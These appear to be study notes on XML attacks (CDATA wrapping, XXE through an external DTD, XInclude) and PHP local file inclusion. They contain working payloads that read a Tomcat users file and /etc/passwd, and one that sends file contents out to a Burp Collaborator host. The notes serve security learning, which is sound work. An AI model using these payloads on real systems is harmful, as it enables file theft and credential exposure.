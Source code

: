 <![CDATA[
   characters with markup
]]>

CDATA cannot contain the string "]]>" anywhere in the XML document.
Nesting is not allowed in CDATA section.

Usage example:

<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcatusers.
xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&wrapper;</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>

XInclude ATTACK:
--------------------

XInclude is a part of the XML specification that allows an XML document TO BE BUILT FROM SUB-DOCUMENTS. 

inside element:

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

SOLUTION:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;

=====================
LOCAL FILE INCLUDE:
=====================

.inc files
include() -> on fail -> Warning -> BY default allows to include other path such URL, STREAM but allow_url_include -> is set NO by default so PHP refuses to use it 
require() -> on fail -> ERROR 
include_once()
require_once()


file.php?fname=test.php?cmd=whoami --> howto 

allow_url_fopen -> by default -> On
allow_url_include -> by default -> Off
